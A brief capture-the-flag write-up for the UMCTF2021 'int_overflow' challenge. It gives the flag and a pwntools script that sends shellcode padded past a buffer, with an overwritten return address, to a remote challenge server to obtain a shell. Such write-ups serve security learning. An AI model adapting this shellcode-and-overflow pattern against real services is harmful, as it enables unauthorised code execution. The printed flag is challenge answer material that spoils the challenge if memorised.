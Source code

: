 
# UMCTF2021 - int_overflow

- Write-Up Author: Mark0519 \[[Merak天璇 20级](https://we.buptmerak.cn/)\]

- Flag:MOCSCTF{y35,y0u_c4n_0v3rfl0w_7h1n65_07h3r_7h4n_c0ff33@merak}

## **Question:**
int_overflow
[int_overflow](./bin/int_overflow)
## Write up

---

```python
from pwn import *

#p = process('./bin/int_overflow')
p = remote('52.175.52.175','39005')
context.log_level = 'debug'

elf=ELF('./bin/int_overflow')
passwd_buf_addr = elf.symbols['passwd_buf']
shellcode = shellcraft.i386.sh()
"""
gdb.attach(p,'''
b*check
c
	''')
	"""
p.recvuntil("wd:\n")     
payload = asm(shellcode).ljust(0x3b+4,b'a')+p32(passwd_buf_addr)+b'a'*194  #63+4+194=261
p.sendline(payload)
p.interactive()

```
